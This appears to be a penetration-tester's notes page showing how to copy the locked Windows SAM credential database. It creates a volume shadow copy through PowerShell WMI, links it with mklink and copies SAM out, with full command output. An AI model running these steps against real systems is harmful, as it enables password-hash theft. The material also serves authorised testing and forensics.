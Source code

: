 - List of interesting functions within Windows:
  - https://msdn.microsoft.com/en-us/library/windows/desktop/aa363858(v=vs.85).aspx
  - https://msdn.microsoft.com/en-us/library/windows/desktop/bb540534(v=vs.85).aspx

- Interesting handles in Windows for every functions:
  - https://msdn.microsoft.com/en-us/library/windows/desktop/ms724211(v=vs.85).aspx
  - https://msdn.microsoft.com/en-us/library/windows/desktop/bb540533(v=vs.85).aspx
  
- Identifying handles used by process:
<pre>
 C:\>handle64.exe "C:\Users\testmachine\Desktop\testssl.txt"

Nthandle v4.1 - Handle viewer
Copyright (C) 1997-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

WINWORD.EXE        pid: 436    type: File          2054: C:\Users\testmachine\Desktop\testssl.txt
</pre>

- Copying SAM files using handles:
  - Usually while copying the files out we get following error:
    <pre>
    C:\temp1>copy C:\Windows\System32\config\sam .
    The process cannot access the file because it is being used by another process.
        0 file(s) copied.
    </pre>
    
   - Identify handles for the SAM files
     <pre>
     C:\>handle64.exe C:\Windows\System32\config\sam

      Nthandle v4.1 - Handle viewer
      Copyright (C) 1997-2016 Mark Russinovich
      Sysinternals - www.sysinternals.com

      System             pid: 4      type: File           AA8: C:\Windows\System32\config\SAM.LOG2
      System             pid: 4      type: File           AF0: C:\Windows\System32\config\SAM.LOG1
      System             pid: 4      type: File           AF4: C:\Windows\System32\config\SAM
      </pre>     
   
   - Here, most of the handles are related to operating system. Hence, we try to close these handles we may end-up crashing the        operating system. So, lets try to read the SAM file from the snapshots. Following command will help us to list snapshots:
    <pre>
    C:\>vssadmin
    vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
    (C) Copyright 2001-2013 Microsoft Corp.

    ---- Commands Supported ----

    Delete Shadows        - Delete volume shadow copies
    List Providers        - List registered volume shadow copy providers
    List Shadows          - List existing volume shadow copies
    List ShadowStorage    - List volume shadow copy storage associations
    List Volumes          - List volumes eligible for shadow copies
    List Writers          - List subscribed volume shadow copy writers
    Resize ShadowStorage  - Resize a volume shadow copy storage association
    </pre>
    
    - List snapshots using:
    <pre>
    C:\>vssadmin list Shadows
    vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
    (C) Copyright 2001-2013 Microsoft Corp.

    Contents of shadow copy set ID: {ddabb2bb-9f3b-4c89-95a4-2f9d9606e600}
       Contained 1 shadow copies at creation time: 4/25/2017 3:30:37 PM
          Shadow Copy ID: {0727b789-e4a3-415d-8ffa-f9855ce414dd}
             Original Volume: (C:)\\?\Volume{def62bc0-7f76-4b55-938a-8fc96a242536}\
             Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
             Originating Machine: testmachine
             Service Machine: testmachine
             Provider: 'Microsoft Software Shadow Copy provider 1.0'
             Type: ClientAccessibleWriters
             Attributes: Persistent, Client-accessible, No auto release, Differential, Auto recovered

    Contents of shadow copy set ID: {70fba089-b7da-4547-b129-acad768545fb}
       Contained 1 shadow copies at creation time: 5/4/2017 4:24:20 PM
          Shadow Copy ID: {f254531c-dbb4-444a-bfbf-ec751c271838}
             Original Volume: (C:)\\?\Volume{def62bc0-7f76-4b55-938a-8fc96a242536}\
             Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3
             Originating Machine: testmachine
             Service Machine: testmachine
             Provider: 'Microsoft Software Shadow Copy provider 1.0'
             Type: ClientAccessibleWriters
             Attributes: Persistent, Client-accessible, No auto release, Differential, Auto recovered

    Contents of shadow copy set ID: {6e9f7009-b4bd-40f9-9111-c220120f3fd9}
       Contained 1 shadow copies at creation time: 5/14/2017 5:27:49 PM
          Shadow Copy ID: {f6d0279f-15e6-49db-83ea-73906d338ae7}
             Original Volume: (C:)\\?\Volume{def62bc0-7f76-4b55-938a-8fc96a242536}\
             Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy4
             Originating Machine: testmachine
             Service Machine: testmachine
             Provider: 'Microsoft Software Shadow Copy provider 1.0'
             Type: ClientAccessibleWriters
             Attributes: Persistent, Client-accessible, No auto release, Differential, Auto recovered
       </pre>
           
    - The shadow copy files are old and hence we can't use it. So let's create a snapshot. However, on Windows 10 client version we can not create a snapshot. In server, vssadmin works differently.
    
    - Powershell script to create snapshot. Powershell to the rescue!! 
    <pre>
    C:\>powershell
    Windows PowerShell
    Copyright (C) 2016 Microsoft Corporation. All rights reserved.

    PS C:\> Get-WmiObject -list Win32_ShadowCopy


       NameSpace: ROOT\cimv2

    Name                                Methods              Properties
    ----                                -------              ----------
    Win32_ShadowCopy                    {Create, Revert}     {Caption, ClientAccessible, Count, Description...}
    </pre>
    
    - Create a new snapshot of C drive. This will return an object.
    <pre>
        PS C:\> (Get-WmiObject -list Win32_ShadowCopy).Create("C:\","ClientAccessible")


    __GENUS          : 2
    __CLASS          : __PARAMETERS
    __SUPERCLASS     :
    __DYNASTY        : __PARAMETERS
    __RELPATH        :
    __PROPERTY_COUNT : 2
    __DERIVATION     : {}
    __SERVER         :
    __NAMESPACE      :
    __PATH           :
    ReturnValue      : 0
    ShadowID         : {C6A8AFD3-433C-4773-8231-9EAAF39A052A}
    PSComputerName   :
    </pre>
    
    - Checking newly created snapshot:
    <pre>
    PS C:\> exit

    C:\>vssadmin list shadows
    vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
    (C) Copyright 2001-2013 Microsoft Corp.

    Contents of shadow copy set ID: {ddabb2bb-9f3b-4c89-95a4-2f9d9606e600}
       Contained 1 shadow copies at creation time: 4/25/2017 3:30:37 PM
          Shadow Copy ID: {0727b789-e4a3-415d-8ffa-f9855ce414dd}
             Original Volume: (C:)\\?\Volume{def62bc0-7f76-4b55-938a-8fc96a242536}\
             Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
             Originating Machine: testmachine
             Service Machine: testmachine
             Provider: 'Microsoft Software Shadow Copy provider 1.0'
             Type: ClientAccessibleWriters
             Attributes: Persistent, Client-accessible, No auto release, Differential, Auto recovered

    Contents of shadow copy set ID: {70fba089-b7da-4547-b129-acad768545fb}
       Contained 1 shadow copies at creation time: 5/4/2017 4:24:20 PM
          Shadow Copy ID: {f254531c-dbb4-444a-bfbf-ec751c271838}
             Original Volume: (C:)\\?\Volume{def62bc0-7f76-4b55-938a-8fc96a242536}\
             Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3
             Originating Machine: testmachine
             Service Machine: testmachine
             Provider: 'Microsoft Software Shadow Copy provider 1.0'
             Type: ClientAccessibleWriters
             Attributes: Persistent, Client-accessible, No auto release, Differential, Auto recovered

    Contents of shadow copy set ID: {6e9f7009-b4bd-40f9-9111-c220120f3fd9}
       Contained 1 shadow copies at creation time: 5/14/2017 5:27:49 PM
          Shadow Copy ID: {f6d0279f-15e6-49db-83ea-73906d338ae7}
             Original Volume: (C:)\\?\Volume{def62bc0-7f76-4b55-938a-8fc96a242536}\
             Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy4
             Originating Machine: testmachine
             Service Machine: testmachine
             Provider: 'Microsoft Software Shadow Copy provider 1.0'
             Type: ClientAccessibleWriters
             Attributes: Persistent, Client-accessible, No auto release, Differential, Auto recovered

    Contents of shadow copy set ID: {39dddc22-0037-47c1-8f07-0f9f99c4393c}
       Contained 1 shadow copies at creation time: <B>5/15/2017 11:26:38 PM</B>
          Shadow Copy ID: {c6a8afd3-433c-4773-8231-9eaaf39a052a}
             Original Volume: (C:)\\?\Volume{def62bc0-7f76-4b55-938a-8fc96a242536}\
             Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5
             Originating Machine: testmachine
             Service Machine: testmachine
             Provider: 'Microsoft Software Shadow Copy provider 1.0'
             Type: ClientAccessible
             Attributes: Persistent, Client-accessible, No auto release, No writers, Differential
    </pre>
    
    - Reading files from the snapshot we will use mklink utility in cmd.
    <pre>
    C:\>mklink
    Creates a symbolic link.

    MKLINK [[/D] | [/H] | [/J]] Link Target

            /D      Creates a directory symbolic link.  Default is a file
                    symbolic link.
            /H      Creates a hard link instead of a symbolic link.
            /J      Creates a Directory Junction.
            Link    Specifies the new symbolic link name.
            Target  Specifies the path (relative or absolute) that the new link
                    refers to.

    C:\>mklink /d C:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5\
    symbolic link created for C:\shadowcopy <<===>> \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5\
    </pre>

    - copy the SAM files out:
    <pre>
      C:\>cd temp1

      C:\temp1>copy C:\shadowcopy\Windows\System32\config\sam .
        1 file(s) copied.
    </pre>
